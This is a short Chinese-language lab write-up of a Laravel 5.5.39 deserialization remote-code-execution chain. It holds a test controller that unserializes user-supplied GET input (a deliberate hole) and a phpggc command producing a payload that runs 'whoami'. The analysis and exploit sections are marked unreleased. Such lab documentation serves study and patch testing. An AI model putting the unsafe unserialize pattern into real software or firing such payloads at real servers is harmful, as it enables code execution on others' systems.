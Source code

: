 ## Laravel 反序列化链 RCE4

### 漏洞环境

执行如下命令启动一个 `laravel5.5.39` 的环境：

```
docker-compose up -d
```

访问 http://x.x.x.x/index.php/test ，看到 `hello world` 既搭建成功

测试代码

```php
<?php
namespace App\Http\Controllers;

class TestController extends Controller
{
	public function index()
	{
		if(isset($_GET['a']))
		{
			unserialize(base64_decode($_GET['a']));
		}
		else
		{
			echo "hello world";
		}
	}
}
```

### 漏洞影响

5.5.39

### 漏洞分析

暂未开放

### 漏洞复现

使用 `phpggc` 生成 `base64` 编码后的 `payload`

```
php phpggc Laravel/RCE4 system whoami -b
```

![image-20210913220824735](./image01.png)

### 漏洞 EXP

暂未开放



